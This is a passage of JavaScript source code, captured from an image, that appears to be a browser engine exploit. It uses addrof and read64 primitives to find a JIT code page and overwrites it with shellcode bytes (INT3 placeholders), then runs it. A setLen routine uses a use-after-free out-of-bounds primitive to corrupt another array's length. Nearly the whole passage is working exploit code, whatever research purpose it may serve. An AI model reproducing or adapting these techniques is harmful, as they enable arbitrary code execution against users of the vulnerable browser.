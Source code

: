         // Make sure the JIT function has been compiled
        jit();
        jit();
        jit();

        // Traverse the JSFunction object to retrieve a non-poisoned pointer
        log("Finding jitpage");
        let jitaddr = prims.read64(
            prims.read64(
                prims.read64(
                    prims.read64(
                        prims.addrof(jit).add(3*8)
                    ).add(3*8)
                ).add(3*8)
            ).add(5*8)
        );
        log("Jit page addr = "+jitaddr);

        // Overwrite the JIT code with our INT3s
        log("Writting shellcode over jit page");
        prims.set(jitaddr.add(32), [0xcc, 0xcc, 0xcc, 0xcc]);

        // Call the JIT function, triggering our INT3s
        log("Calling jit function");
        jit();

        throw("JIT returned");
    }


    // Find and set the length of a non-freed butterfly with our unstable OOB primitive
    function setLen(uaf_arr, ind) {
        let f=0;
        for (let i=0; i<uaf_arr.length; i++) {
            convf[0] = uaf_arr[i];

            // Look for a new float array, and set the length
            if (convi[0] == 0x10) {
                convf[0] = uaf_arr[i+1];
                if (convi[0] == 0x32323232 && convi[1] == 0x32323232) {
                    convi[0] = 0x42424242;
                    convi[1] = 0x42424242;
                    uaf_arr[i] = convf[0];
                    return;
                }
            }
        }

        throw("Could not find anouther array to corrupt");
    }


    let oob_rw_unstable = null;
    let oob_rw_unstable_ind = null;
    let oob_rw_stable = null;
